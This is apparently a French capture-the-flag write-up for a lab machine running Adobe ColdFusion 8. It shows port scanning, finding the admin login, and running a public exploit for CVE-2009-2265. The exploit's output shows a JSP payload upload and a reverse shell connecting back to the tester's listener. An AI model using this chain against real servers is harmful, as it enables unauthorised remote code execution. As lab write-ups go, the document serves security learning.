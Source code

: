 ```terminal
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Avec mon scan, je ne trouve que 3 ports qui sont ouverts sur la Machine dont:
- **Ports 135 & 49154**: qui execute le Microsoft Windows RPC
- **Port 8500**: qui elle execute le `Flight Message Transfert Protocol`(FMTP)

En visitant le port *8500*, j'atteris sur cette page

![Page D'accueil](https://i.ibb.co/Fn05ncT/image-86.png)

Dans ces deux (2) directory, en faisant des recherchers je tombe sur une page `/administrator` qui me renvoi dans un login

![Admin](https://i.ibb.co/5T2jpnd/ad.png)

- Dans celle-ci je trouve dans le titre `Adobe ColdFusion 8 Administrator`. alors je cherche des exploits sur `Google` et sur `Searchsploit`

![Searchsploit](https://i.ibb.co/X7zytVy/cold.png)

Avec ce recherche je trouve l'exploit `50057.py` et je le copie en local. En lisant l'exploit je vois que c'est le `CVE-2009-2265`.
- J'ouvre l'exploit dans mon `Sublime texte` pour le lire un peu et le modifier au niveau des IPs, puis je lance


```terminal
─# python3 coldfusion.py         

Generating a payload...
Payload size: 1496 bytes
Saved as: c39559fbd32947c597bc9bbc08db4a9f.jsp

Priting request...
Content-type: multipart/form-data; boundary=854f29a3ce9247d89abbcf5729ffc490
Content-length: 1697

--854f29a3ce9247d89abbcf5729ffc490
Content-Disposition: form-data; name="newfile"; filename="c39559fbd32947c597bc9bbc08db4a9f.txt"
Content-Type: text/plain


Printing some information for debugging...
lhost: 10.10.16.4
lport: 1337
rhost: 10.129.136.143
rport: 8500
payload: c39559fbd32947c597bc9bbc08db4a9f.jsp

Deleting the payload...

Listening for connection...

Executing the payload...
listening on [any] 1337 ...
connect to [10.10.16.4] from (UNKNOWN) [10.129.136.143] 49295
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```
